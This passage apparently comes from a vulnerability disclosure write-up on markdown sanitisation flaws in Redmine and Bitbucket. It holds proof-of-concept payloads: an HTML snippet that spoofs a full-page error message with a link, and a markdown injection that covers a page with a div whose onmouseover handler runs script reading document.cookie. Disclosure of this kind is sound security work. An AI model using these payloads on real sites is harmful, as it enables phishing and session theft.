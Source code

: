 ![Fullsize message](/media/redmine.fullsize.png)

PoC:
```html
<code class="total-hours ui-helper-reset ui-widget-overlay role-visibility ui-front"><pre>Hello there! Something has gone wrong, we are working on it.</pre><pre>In the meantime, play a game with us by clicking the link below:</pre> http://example.com/</code>
{repeated several times}
```

Could you spot the difference with the screenshots for other projects? This one looks very suspicious.

Redmine (in default setup) has a relatively small number of css rules and a small client-side JS file (which doesn't bind onclick handlers solely by the `class` attribute). Thus, the issue for the default Redmine setup has lower severity than for all other mentioned projects. The above screenshot was made with the default setup, though.

The severity could be raised in presence of various Redmine plugins that include their own js/css to the page, and installing thirdparty plugins is pretty popular in Redmine ecosystem.

### Bitbucket

_Fixed at: 2017-06-20._

The issue here is different and is not related to `class` not being sanitized.

This is a full-featured XSS, with arbitrary JS code, achievable through issue comments (among other places).

PoC 1, covers everything on the page with a div with an `onmouseover` event handler executing arbitrary JS code:
```md
The HTML specification is maintained by the W3C.
*[HTML]: [Hyper Text Markup Language](http://example.com/bar/style='background:#fff;font-size:0;left:0;right:0;top:0;bottom:0;z-index:99990;position:fixed'#/onmouseover=alert('xss:'+document.cookie);")
```
